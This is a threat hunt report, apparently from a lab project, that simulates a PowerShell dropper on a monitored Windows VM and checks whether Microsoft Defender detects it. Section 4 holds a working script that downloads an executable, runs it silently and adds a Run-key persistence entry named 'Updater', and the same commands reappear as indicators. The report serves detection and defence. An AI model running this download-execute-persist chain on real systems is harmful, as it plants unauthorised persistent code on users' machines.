 # Threat Hunt Report: Silent PowerShell Dropper with Persistence

## 1. Executive Summary
This hunt investigated potential adversary behavior involving PowerShell one-liners used to download and silently install executables into `C:\ProgramData\`, followed by persistence creation via Windows Run keys. The objective was to validate whether this technique was present in the environment and to assess the effectiveness of Microsoft Defender detections.

**Result:** The scenario was successfully simulated in a controlled VM environment. Indicators were captured in Microsoft Defender Advanced Hunting queries, demonstrating the ability to detect this type of malicious activity.

---

## 2. Scope
- **Environment:** Windows 10 VM onboarded into Microsoft Defender for Endpoint
- **Timeframe:** Past 7 days
- **Data sources:**
  - DeviceProcessEvents
  - DeviceNetworkEvents
  - DeviceFileEvents
  - DeviceRegistryEvents

---

## 3. Hypothesis
If an adversary abused PowerShell to download and silently execute an `.exe` from the internet, we should observe:
1. PowerShell execution with suspicious command-line parameters.
2. File creation of an executable in `C:\ProgramData`.
3. Silent execution of that file with `/S` or `/quiet` flags.
4. Registry persistence written to `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`.

---

## 4. Actions Performed
1. **Simulation:**
```powershell
# Lab script using GitHub release URL
$uri = "https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"
$out = "C:\ProgramData\7z2408-x64.exe"

Write-Host "Testing connectivity to $uri ..."
try { $uriObj = [uri]$uri } catch { Write-Error "Invalid URI"; exit 1 }

# Test connection (HEAD)
try {
    $r = Invoke-WebRequest -Uri $uri -Method Head -UseBasicParsing -TimeoutSec 15 -ErrorAction Stop
    Write-Host "HEAD OK: $($r.StatusCode)"
} catch {
    Write-Warning "HEAD failed: $($_.Exception.Message) -- will try GET"
}

# Try download
try {
    Write-Host "Downloading via Invoke-WebRequest..."
    Invoke-WebRequest -Uri $uri -OutFile $out -UseBasicParsing -TimeoutSec 120 -ErrorAction Stop
    Write-Host "Downloaded to $out"
} catch {
    Write-Warning "Invoke-WebRequest failed: $($_.Exception.Message)"
    try {
        Write-Host "Trying BITS fallback..."
        Start-BitsTransfer -Source $uri -Destination $out -ErrorAction Stop
        Write-Host "BITS download completed"
    } catch {
        Write-Error "BITS failed: $($_.Exception.Message). Exiting."
        exit 1
    }
}

# Confirm file
if (-not (Test-Path $out)) { Write-Error "Download didn't produce file. Exiting."; exit 1 }

# Optional: compute SHA256 for record
try { Get-FileHash -Path $out -Algorithm SHA256 } catch {}

# Run silently (for installers that accept /S)
try {
    Start-Process -FilePath $out -ArgumentList "/S" -Wait -ErrorAction Stop
    Write-Host "Process executed (silent argument)."
} catch {
    Write-Warning "Start-Process failed (maybe not an installer): $($_.Exception.Message)"
}

# Persistence (HKCU Run key)
try {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value $out -PropertyType String -Force
    Write-Host "Created Run key -> $out"
} catch {
    Write-Warning "Failed to create Run key: $($_.Exception.Message)"
}

   ```

2. **Hunting Queries Executed:**
   - Suspicious PowerShell execution (DeviceProcessEvents)
   - Network connections initiated by PowerShell (DeviceNetworkEvents)
   - File creation in ProgramData (DeviceFileEvents)
   - Silent installer execution (DeviceProcessEvents)
   - Registry Run-key persistence (DeviceRegistryEvents)
   - Unified timeline correlation (union query)

---

## 5. Findings
- **Process Evidence:** PowerShell executed with `Invoke-WebRequest` and `/S` flags.
- **Network Evidence:** Outbound HTTP request to `<labhost>` from PowerShell.
- **File Evidence:** Creation of `7z2408-x64.exe` under `C:\ProgramData`.
- **Execution Evidence:** Silent execution of the dropped file.
- **Registry Evidence:** Run key persistence created for `Updater` pointing to the executable.

---

## 6. Indicators of Compromise (IoCs)
- **File Path:** `C:\ProgramData\7z2408-x64.exe`
- **Registry Key:** `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\Updater`
- **Process CommandLines:**
  - `powershell.exe Invoke-WebRequest -Uri https://<labhost>/7z2408-x64.exe -OutFile C:\ProgramData\7z2408-x64.exe`
  - `C:\ProgramData\7z2408-x64.exe /S`
- **Network Indicators:**
  - Remote URL: `https://<labhost>/7z2408-x64.exe`
  - RemoteIP: `<labhost IP>`

---

## 7. Timeline of Events
| Time (UTC) | Evidence Type | Details |
|------------|---------------|---------|
| T0         | Process       | PowerShell executed with download command |
| T0+1m      | Network       | HTTP GET to `<labhost>/7z2408-x64.exe` |
| T0+2m      | File          | File created in `C:\ProgramData` |
| T0+3m      | Process       | Silent execution of downloaded EXE |
| T0+4m      | Registry      | Run key persistence created |

---

## 8. Recommendations
- **Preventive Controls:**
  - Enable Attack Surface Reduction (ASR) rules:
    - Block process creations from PS/Command Prompt
    - Block executable content from email/webmail downloads
  - Restrict write access to `C:\ProgramData\`.
  - Enable PowerShell logging (ScriptBlock and Module).
- **Detection Enhancements:**
  - Create a custom detection rule for silent installers executed from ProgramData.
  - Create an alert for Run-key persistence referencing executables.
- **Response Playbook:**
  - Isolate affected host.
  - Remove malicious file and registry entry.
  - Reset credentials if compromise suspected.
  - Conduct mailbox review for related phishing attempts.

---

## 9. Conclusion
This hunt successfully validated detection coverage for a common attacker TTP (T1059.001 – PowerShell, T1547.001 – Registry Run Keys/Startup Folder). The environment is capable of identifying these behaviors, and further improvements can be made by operationalizing the detection rules into continuous monitoring.

---

## 10. Appendices
- **Screenshots:** Attach Advanced Hunting query results here.
- **KQL Queries:** Provided in the Threat Hunt Scenario README.
- **MITRE ATT&CK Mapping:**
  - **T1059.001** – PowerShell
  - **T1105** – Ingress Tool Transfer
  - **T1547.001** – Registry Run Keys/Startup Folder
